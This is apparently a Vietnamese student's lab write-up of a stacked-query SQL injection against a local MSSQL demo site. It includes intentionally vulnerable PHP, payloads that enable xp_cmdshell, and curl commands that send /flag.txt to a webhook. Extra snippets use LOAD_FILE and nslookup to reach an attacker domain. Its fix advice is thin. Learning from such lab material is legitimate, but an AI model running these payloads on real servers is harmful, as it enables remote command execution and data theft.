

## Về dạng này em dùng source của bài StackQuery ạ nhưng mà với một hướng đi khác là em sẽ wget 1 shell về để RCE ạ
## Còn một hướng khác nữa là em sẽ dùng LOAD_FILE để lấy file php độc hại về sever hoặc là em sẽ dùng cách truyền đầu ra đến máy của kẻ nghe lén ạ

# Link demo : https://github.com/l3mnt2010/task2_KCSC/tree/main/demo/stackQuery
# Cách khắc phục :

- Hoặc làm sạch đầu vào   $cleaned_username = sqlsrv_real_escape_string($conn, $name);
$cleaned_password = mysqli_real_escape_string($conn, $password);
- Và tìm hiểu các CVE của các phiên bản để tránh được lỗi này có thể xảy ra.

+ Bắt đầu vào với một giao diện như trên

- Đây là đoạn code bị dính lỗi

<?php
require_once "../config/connectMssql.php";

if (isset($_GET['name'])) {
    global $conn;
    $name = $_GET['name'];
    $tsql = "SELECT * FROM $name";

    $stmt = sqlsrv_query($conn, $tsql);
    if( $stmt === false )
    {
        echo "Lỗi truy vấn. ";
        die( print_r( sqlsrv_errors(), true));
    }

    if ($stmt) {
           while( $row = sqlsrv_fetch_array($stmt, SQLSRV_FETCH_ASSOC) ){
            echo '
                

                    

                        

                            
                            

                                <!-- Wishlist and Cart buttons here -->
                            

                        

                        <a href="#">
                            <h2 class="mb-2 text-xl font-bold text-black dark:text-white">
                                ' . $row['name'] . '
                            </h2>
                        </a>
                        

                            $' . $row['sale'] . '.00
                            $' . $row['price'] . '.00
                        

                        

               <svg xmlns="http://www.w3.org/2000/svg" width="16" height="16" fill="currentColor"
                   class="bi bi-star-fill" viewBox="0 0 16 16">
                   <path
                       d="M3.612 15.443c-.386.198-.824-.149-.746-.592l.83-4.73L.173 6.765c-.329-.314-.158-.888.283-.95l4.898-.696L7.538.792c.197-.39.73-.39.927 0l2.184 4.327 4.898.696c.441.062.612.636.282.95l-3.522 3.356.83 4.73c.078.443-.36.79-.746.592L8 13.187l-4.389 2.256z" />
               </svg>
               <svg xmlns="http://www.w3.org/2000/svg" width="16" height="16" fill="currentColor"
                   class="bi bi-star-fill" viewBox="0 0 16 16">
                   <path
                       d="M3.612 15.443c-.386.198-.824-.149-.746-.592l.83-4.73L.173 6.765c-.329-.314-.158-.888.283-.95l4.898-.696L7.538.792c.197-.39.73-.39.927 0l2.184 4.327 4.898.696c.441.062.612.636.282.95l-3.522 3.356.83 4.73c.078.443-.36.79-.746.592L8 13.187l-4.389 2.256z" />
               </svg>
               <svg xmlns="http://www.w3.org/2000/svg" width="16" height="16" fill="currentColor"
                   class="bi bi-star-fill" viewBox="0 0 16 16">
                   <path
                       d="M3.612 15.443c-.386.198-.824-.149-.746-.592l.83-4.73L.173 6.765c-.329-.314-.158-.888.283-.95l4.898-.696L7.538.792c.197-.39.73-.39.927 0l2.184 4.327 4.898.696c.441.062.612.636.282.95l-3.522 3.356.83 4.73c.078.443-.36.79-.746.592L8 13.187l-4.389 2.256z" />
               </svg>
               <svg xmlns="http://www.w3.org/2000/svg" width="16" height="16" fill="currentColor"
                   class="bi bi-star-fill" viewBox="0 0 16 16">
                   <path
                       d="M3.612 15.443c-.386.198-.824-.149-.746-.592l.83-4.73L.173 6.765c-.329-.314-.158-.888.283-.95l4.898-.696L7.538.792c.197-.39.73-.39.927 0l2.184 4.327 4.898.696c.441.062.612.636.282.95l-3.522 3.356.83 4.73c.078.443-.36.79-.746.592L8 13.187l-4.389 2.256z" />
               </svg>
               <svg xmlns="http://www.w3.org/2000/svg" width="16" height="16" fill="currentColor"
                   class="bi bi-star" viewBox="0 0 16 16">
                   <path
                       d="M2.866 14.85c-.078.444.36.791.746.593l4.39-2.256 4.389 2.256c.386.198.824-.149.746-.592l-.83-4.73 3.522-3.356c.33-.314.16-.888-.282-.95l-4.898-.696L8.465.792a.513.513 0 0 0-.927 0L5.354 5.12l-4.898.696c-.441.062-.612.636-.283.95l3.523 3.356-.83 4.73zm4.905-2.767-3.686 1.894.694-3.957a.565.565 0 0 0-.163-.505L1.71 6.745l4.052-.576a.525.525 0 0 0 .393-.288L8 2.223l1.847 3.658a.525.525 0 0 0 .393.288l4.052.575-2.906 2.77a.565.565 0 0 0-.163.506l.694 3.957-3.686-1.894a.503.503 0 0 0-.461 0z" />
               </svg>
           

                    

                    
                

            ';
        }
    } else {
        echo '
Invalid name or your hack me!!!
';
    }
    sqlsrv_free_stmt( $stmt);
    sqlsrv_close( $conn);
}
?>

<?php

//     $tsql = "SELECT sale FROM items; WAITFOR DELAY '0:0:10'";
    
//     $stmt = sqlsrv_query($conn, $tsql);
//     if( $stmt === false )
//     {
//         echo "Lỗi truy vấn. ";
//         die( print_r( sqlsrv_errors(), true));
//     }

//     $rows = [];
//     while( $row = sqlsrv_fetch_array($stmt, SQLSRV_FETCH_ASSOC) )
//     {
//         $rows[] = $row;
//     }
//     print_r($rows);

//     sqlsrv_free_stmt( $stmt);
//     sqlsrv_close( $conn);
?>

- Có vẻ như là trang web này lấy giá trị param name và cho vào trong câu truy vấn
                                        $tsql = "SELECT * FROM $name";
- Bởi vì được truyền trực tiếp nên em có thể đoán là bị dính lỗi sql injection
- Em sẽ khai thác theo hướng thực thi shell trong MSSQL đây là một dạng stack query
- Vào trong burpsuite và chọn request bị dính lỗi như sau:

- Em thử thêm dấu ';' vào đằng sau và request vẫn thực hiện bình thường

- Sau đó em dùng payload "; WAITFOR DELAY '0:0:5'; -- "
- Em nhận lại được response sau 5s

- Điều này chứng tỏ là em có thể thực hiện chồng query ở trong trường hợp này
- Em muốn thực hiện được xp_cmdshell trong truy vấn để lấy dữ liệu
+ Ban đầu em sẽ phải cài đặt lại setting để có thể thực hiện shell

em tham khảo bài viết này:  https://medium.com/@notsoshant/a-not-so-blind-rce-with-sql-injection-13838026331e
Và dùng payload :  ";EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE; WAITFOR DELAY '0:0:5'; --"

- Và em nhận được kết quả sau 5s  chứng tỏ là đã reconfig thành công

- Tiếp sau đó em thực thi shell curl đến webhook của em

 http://localhost/task2_KCSC/demo/stackQuery/index.php?name=items;EXEC%20xp_cmdshell%20%27curl+https://webhook.site/0e0a8778-5ef0-4657-8aec-84076f5a552e;%20WAITFOR%20DELAY%20%270:0:5%27;%20--%20%22

Và vào webhook em nhận được

Em dùng payload này để lấy thông tin file flag.txt
;EXEC%20xp_cmdshell%20%27curl+-X+POST+--data+"@/flag.txt"+-H+"Content-Type:+application/data"+https://webhook.site/0e0a8778-5ef0-4657-8aec-84076f5a552e%27;%20WAITFOR%20DELAY%20%270:0:5%27;%20--%20%22

Và kết quả:

Và em nhận được thông tin vậy là em đã RCE được sever @@

### Một số hướng khai thác khác

<?php

$servername = "your_server";
$username = "your_username";
$password = "your_password";
$dbname = "your_database";

$conn = new mysqli($servername, $username, $password, $dbname);

if ($conn->connect_error) {
    die("Kết nối thất bại: " . $conn->connect_error);
}

$user_input = $_GET['query'];

$sql = "SELECT * FROM your_table WHERE column_name = '$user_input'";

$payload = "'; SELECT LOAD_FILE('http://attacker-controlled-domain.com/evil.txt')--";
$sql_out_of_band = "SELECT * FROM your_table WHERE column_name = '$user_input$payload'";

$result = $conn->query($sql_out_of_band);

if ($result->num_rows > 0) {
    
    while ($row = $result->fetch_assoc()) {
     
    }
} else {
  
}

$conn->close();
?>

<?php

$servername = "your_server";
$username = "your_username";
$password = "your_password";
$dbname = "your_database";

$conn = new mysqli($servername, $username, $password, $dbname);

if ($conn->connect_error) {
    die("Kết nối thất bại: " . $conn->connect_error);
}

$user_input = $_GET['query'];

$sql = "SELECT * FROM your_table WHERE column_name = '$user_input'";

$payload = "'; EXEC xp_cmdshell('nslookup attacker-controlled-domain.com')--";
$sql_out_of_band = "SELECT * FROM your_table WHERE column_name = '$user_input$payload'";

$result = $conn->query($sql_out_of_band);

if ($result->num_rows > 0) {
    
    while ($row = $result->fetch_assoc()) {
       
    }
} else {
    
}

// Đóng kết nối
$conn->close();
?>
